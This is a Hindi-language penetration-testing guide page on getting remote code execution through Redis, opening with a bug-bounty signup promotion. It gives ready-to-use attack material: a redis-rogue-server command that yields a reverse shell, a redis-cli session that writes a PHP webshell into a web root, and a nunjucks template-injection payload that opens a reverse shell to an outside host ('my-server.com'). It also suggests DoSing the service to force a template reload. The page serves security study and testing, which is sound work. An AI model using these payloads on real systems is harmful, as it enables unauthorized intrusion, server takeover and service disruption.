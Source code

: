 **वेब3 हैकर लीजेंड बनें**\
प्रत्येक सत्यापित बग के साथ प्रतिष्ठा अंक प्राप्त करें और साप्ताहिक लीडरबोर्ड के शीर्ष पर विजयी बनें।

[**HackenProof पर साइन अप करें**](https://hackenproof.com/register) और अपने हैक्स से कमाई करना शुरू करें!

{% embed url="https://hackenproof.com/register" %}

## Redis RCE

### इंटरैक्टिव शेल

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) आपको स्वचालित रूप से रेडिस(<=5.0.5) में एक इंटरैक्टिव शेल या रिवर्स शेल प्राप्त करने में मदद कर सकता है।
```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```
### PHP वेबशेल

[**यहां**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html) से जानकारी मिली है। आपको **वेबसाइट फ़ोल्डर का पथ** पता होना चाहिए:
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
यदि वेबशेल एक्सेस अस्वीकृति होती है, तो आप बैकअप के बाद डेटाबेस को खाली कर सकते हैं और पुनः प्रयास कर सकते हैं, ध्यान दें कि डेटाबेस को पुनर्स्थापित करें।

### टेम्पलेट वेबशेल

पिछले खंड में की तरह, आप किसी भी html टेम्पलेट फ़ाइल को अधिष्ठानित करने और शैल मिलाने के लिए एक टेम्पलेट इंजन द्वारा व्याख्या की जा रही है और एक शैल प्राप्त कर सकते हैं।

उदाहरण के लिए, [**इस व्राइटअप**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/) का पालन करते हुए, आप देख सकते हैं कि हमलावर ने **nunjucks टेम्पलेट इंजन** द्वारा व्याख्या की जाने वाली **html में एक रेव शैल डाली है:**
```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});"
)()}}
```
{% hint style="warning" %}
ध्यान दें कि **कई टेम्पलेट इंजन कैश** में टेम्पलेट्स को **मेमोरी में** कैश किया जाता है, इसलिए यदि आप उन्हें अधिलेखित करते हैं, तो नया टेम्पलेट **क्रियान्वित नहीं होगा**। इस प्रकार के मामलों में, या तो डेवलपर ने स्वचालित पुनरारंभ सक्रिय छोड़ दी है या आपको सेवा पर डीओएस करने की आवश्यकता होगी (और उम्मीद करेंगे कि यह स्वचालित रूप से पुनरारंभ होगा)।
{% endhint %}
